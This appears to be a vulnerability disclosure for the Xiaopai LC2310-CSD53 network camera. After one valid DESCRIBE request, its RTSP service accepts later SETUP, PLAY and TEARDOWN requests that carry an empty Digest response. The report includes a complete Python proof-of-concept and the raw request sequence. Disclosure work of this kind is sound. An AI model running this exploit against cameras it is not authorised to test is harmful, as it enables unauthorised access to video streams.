




# Xiaopai LC2310-CSD53 - RTSP Digest Re-authentication Bypass on Established Connections

### Information

Vendor: Shenzhen Xiaopai Technology Co., Ltd. (小湃科技)

Affected Product: Xiaopai LC2310-CSD53 network camera

Affected Firmware Version: 1.00.18

Vendor Homepage: [https://www.xiaopaitech.com](https://www.xiaopaitech.com)

Vendor Contact Information: 0755-86566780 / 400-822-1116 (official support phone)



Affected Component: RTSP service (TCP/554)

### Description

A vulnerability in the RTSP service of Xiaopai LC2310-CSD53 firmware 1.00.18 allows an attacker with access to an authenticated RTSP connection to bypass per-request Digest re-authentication. The service validates Digest credentials only for the initial DESCRIBE request and does not revalidate subsequent requests on the same connection; SETUP, PLAY, and TEARDOWN requests carrying an empty Digest response are accepted with 200 OK.

### Exploit Demo

The camera uses RTSP Digest authentication with realm `zlmeida` on TCP/554. The PoC first obtains a fresh challenge and completes one valid authenticated DESCRIBE. It then sends `SETUP`, `SETUP`, `PLAY` and `TEARDOWN` on the same TCP connection with `response=""`.

The first terminal screenshot shows the valid `DESCRIBE` returning `200 OK`, followed by the two `SETUP` requests with `response=""` returning `200 OK`. The empty response values are highlighted:



The second terminal screenshot shows the second `SETUP`, `PLAY` and `TEARDOWN` requests also returning `200 OK` with `response=""`, followed by the final confirmation line:



Wireshark confirms that the requests and responses were exchanged on the same TCP connection. The highlighted areas show the empty `response` parameter and the corresponding `200 OK` responses:



The first `SETUP` returns a Session identifier, which is reused by the second `SETUP`, `PLAY` and `TEARDOWN`. No new `401` challenge is issued after the initial authenticated `DESCRIBE`.

Additional tests on the same device also accepted `SETUP` when the `Authorization` header was omitted and when the response value was incorrect. The PoC and screenshots in this report focus on the empty-response case.

A 90-second screen recording of the complete reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the valid `DESCRIBE` and the empty-response `SETUP`, `SETUP`, `PLAY` and `TEARDOWN` sequence together with the Wireshark capture.

### POC

The following standalone Python 3 PoC reproduces the sequence. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values.

```python
#!/usr/bin/env python3
"""LC2310-CSD53 RTSP empty Digest response PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
A valid DESCRIBE opens the authenticated state; the following SETUP, PLAY
and TEARDOWN requests use response="" and are accepted with 200 OK.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

TIMEOUT = 8.0
REQUEST_DELAY = 1.0
USER_AGENT = "LC2310-empty-digest-poc/1.0"

BASE = "rtsp://%s:%d/md0_0" % (TARGET_IP, TARGET_PORT)
CONTROL_URI = BASE + "/"
TRACK0 = BASE + "/trackID=0"
TRACK1 = BASE + "/trackID=1"


def md5(value):
    return hashlib.md5(value.encode("utf-8")).hexdigest()


def header_value(headers, name):
    prefix = name.lower() + ":"
    for line in headers:
        if line.lower().startswith(prefix):
            return line.split(":", 1)[1].strip()
    return ""


def parse_challenge(headers):
    value = header_value(headers, "WWW-Authenticate")
    params = dict(re.findall(r'(\w+)="([^"]*)"', value))
    return params["realm"], params["nonce"]


def digest_auth(method, uri, realm, nonce, response=None):
    if response is None:
        ha1 = md5("%s:%s:%s" % (USERNAME, realm, PASSWORD))
        ha2 = md5("%s:%s" % (method, uri))
        response = md5("%s:%s:%s" % (ha1, nonce, ha2))
    return (
        'Authorization: Digest username="%s", realm="%s", nonce="%s", '
        'uri="%s", response="%s"'
    ) % (USERNAME, realm, nonce, uri, response)


class RTSPClient:
    def __init__(self):
        self.sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=TIMEOUT)
        self.sock.settimeout(TIMEOUT)
        self.file = self.sock.makefile("rb")
        self.cseq = 2

    def close(self):
        try:
            self.file.close()
        except OSError:
            pass
        try:
            self.sock.close()
        except OSError:
            pass

    def read_exact(self, size):
        data = self.file.read(size)
        if len(data) != size:
            raise EOFError("connection closed")
        return data

    def recv_response(self):
        # Skip interleaved RTP frames.
        while True:
            first = self.file.read(1)
            if not first:
                raise EOFError("connection closed")
            if first == b"$":
                frame_header = self.read_exact(3)
                self.read_exact(int.from_bytes(frame_header[1:], "big"))
                continue
            status = (first + self.file.readline()).decode("latin-1").strip()
            break

        headers = []
        while True:
            line = self.file.readline()
            if not line:
                raise EOFError("connection closed")
            if line in (b"\r\n", b"\n"):
                break
            headers.append(line.decode("latin-1").rstrip("\r\n"))

        length = int(header_value(headers, "Content-Length") or "0")
        if length:
            self.read_exact(length)
        return status, headers

    def send(self, label, method, uri, extra_headers=()):
        lines = [
            "%s %s RTSP/1.0" % (method, uri),
            "CSeq: %d" % self.cseq,
            "User-Agent: %s" % USER_AGENT,
        ]
        lines.extend(extra_headers)
        payload = "\r\n".join(lines) + "\r\n\r\n"

        print("\n[%s]" % label)
        print("  send:")
        for line in payload.rstrip("\r\n").split("\r\n"):
            print("    | " + line)

        if REQUEST_DELAY:
            print("  [wait] %.1fs before sending" % REQUEST_DELAY)
            time.sleep(REQUEST_DELAY)

        self.cseq += 1
        try:
            self.sock.sendall(payload.encode("latin-1"))
            status, headers = self.recv_response()
        except EOFError:
            print("  -> connection closed without RTSP reply")
            return None, []
        except socket.timeout:
            print("  -> response timeout")
            return None, []
        except (ConnectionResetError, OSError) as exc:
            print("  -> connection failed: %s" % type(exc).__name__)
            return None, []

        print("  <- status: %s" % status)
        print("  headers:")
        for line in headers:
            print("    < " + line)
        return status, headers


def main():
    print("=" * 70)
    print("LC2310-CSD53 RTSP empty Digest response PoC")
    print("  target : %s:%d" % (TARGET_IP, TARGET_PORT))
    print("=" * 70)

    client = RTSPClient()

    client.send("OPTIONS", "OPTIONS", BASE)

    status, headers = client.send("DESCRIBE challenge", "DESCRIBE", BASE,
                                  ["Accept: application/sdp"])
    if not status or not status.startswith("RTSP/1.0 401"):
        print("Expected a 401 Digest challenge; stopping.")
        client.close()
        return

    realm, nonce = parse_challenge(headers)

    status, _ = client.send(
        "DESCRIBE with valid Digest", "DESCRIBE", BASE,
        [digest_auth("DESCRIBE", BASE, realm, nonce), "Accept: application/sdp"])
    if not status or not status.startswith("RTSP/1.0 200"):
        print("Valid Digest DESCRIBE failed; stopping.")
        client.close()
        return

    status, headers = client.send(
        "SETUP trackID=0 with empty response", "SETUP", TRACK0,
        [digest_auth("SETUP", CONTROL_URI, realm, nonce, response=""),
         "Transport: RTP/AVP/TCP;unicast;interleaved=0-1"])
    session = header_value(headers, "Session").split(";", 1)[0].strip()
    if not session:
        print("No Session issued; stopping.")
        client.close()
        return
    print("  [session] %s" % session)

    client.send(
        "SETUP trackID=1 with empty response", "SETUP", TRACK1,
        [digest_auth("SETUP", CONTROL_URI, realm, nonce, response=""),
         "Transport: RTP/AVP/TCP;unicast;interleaved=2-3",
         "Session: %s" % session])

    client.send(
        "PLAY with empty response", "PLAY", CONTROL_URI,
        [digest_auth("PLAY", CONTROL_URI, realm, nonce, response=""),
         "Session: %s" % session, "Range: npt=0.000-"])

    client.send(
        "TEARDOWN with empty response", "TEARDOWN", CONTROL_URI,
        [digest_auth("TEARDOWN", CONTROL_URI, realm, nonce, response=""),
         "Session: %s" % session])

    client.close()
    print("\nEmpty Digest response accepted for SETUP, SETUP, PLAY and TEARDOWN.")


if __name__ == "__main__":
    main()

```

### MSG

The complete request sequence is shown below. `192.168.1.100` is a placeholder for the target address. `<USERNAME>`, `<NONCE>`, `<VALID_DESCRIBE_RESPONSE>` and `<SESSION>` are runtime values.

```text
OPTIONS rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 2
User-Agent: LC2310-empty-digest-poc/1.0

DESCRIBE rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 3
User-Agent: LC2310-empty-digest-poc/1.0
Accept: application/sdp

DESCRIBE rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 4
User-Agent: LC2310-empty-digest-poc/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0", response="<VALID_DESCRIBE_RESPONSE>"
Accept: application/sdp

SETUP rtsp://192.168.1.100:554/md0_0/trackID=0 RTSP/1.0
CSeq: 5
User-Agent: LC2310-empty-digest-poc/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0/", response=""
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://192.168.1.100:554/md0_0/trackID=1 RTSP/1.0
CSeq: 6
User-Agent: LC2310-empty-digest-poc/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0/", response=""
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: <SESSION>

PLAY rtsp://192.168.1.100:554/md0_0/ RTSP/1.0
CSeq: 7
User-Agent: LC2310-empty-digest-poc/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0/", response=""
Session: <SESSION>
Range: npt=0.000-

TEARDOWN rtsp://192.168.1.100:554/md0_0/ RTSP/1.0
CSeq: 8
User-Agent: LC2310-empty-digest-poc/1.0
Authorization: Digest username="<USERNAME>", realm="zlmeida", nonce="<NONCE>", uri="rtsp://192.168.1.100:554/md0_0/", response=""
Session: <SESSION>
```

The decisive requests are the two `SETUP` requests, `PLAY` and `TEARDOWN` with `response=""`; the preceding `OPTIONS` and `DESCRIBE` establish the authenticated connection.

### Credit

CRFuzzer
